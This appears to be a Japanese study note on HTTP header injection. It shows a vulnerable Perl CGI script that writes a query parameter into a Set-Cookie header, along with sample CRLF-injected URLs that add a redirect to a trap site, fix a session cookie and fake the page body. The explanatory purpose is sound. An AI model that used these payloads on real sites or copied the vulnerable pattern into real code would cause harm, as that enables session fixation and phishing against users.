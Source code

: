 ### 解説
不十分な対策なので`sample`で始まっているとして`Location`ヘッダに
```
Location: http://sample.com/
Location: http://trap.com/
```
が出力される。複数のLocationがあると前者が書きされて後者だけが出力される。

### 任意のクッキー生成
同じcgiに
```
cgi?url=http://sample.com/%0D%0ASet-Cookie:+SESSID=ABCD123
```
でアクセスすると
```
Set-Cookie: SESSID=ABCD123
Location: http://sample.com/
```
任意のクッキー値を生成できるのでセッションIDの固定化攻撃の可能性

### 偽画面の表示
pageidクエリー文字列の値をPAGEIDという名前でクッキーを生成するCGIスクリプト
```
my $cgi = new CGI;
my $pageid = $cgi->param('pageid');
print encode('UTF-8', <<END_OF_HTML);
Content-Type: text/html; charset=UTF-8
Set-Cookie: PAGEID=$pageid

<body>
クッキーを設定
</body>
END_OF_HTML
```

```
http://sample.com/cgi?pageid=P%0D%0A%0D%0A....
```
で開くとヘッダに
```
PAGEID=P
```
があり、レスポンスボディが
```
攻撃されました

<body>
クッキーを設定
</body>
```
となる。CSSを工夫すれば元の画面を隠せる。

### HTTPヘッダと改行
* URLは改行文字を含めない
* クッキーの値
    * 改行を入れたい場合は`%0D%0A`とパーセントエンコードする
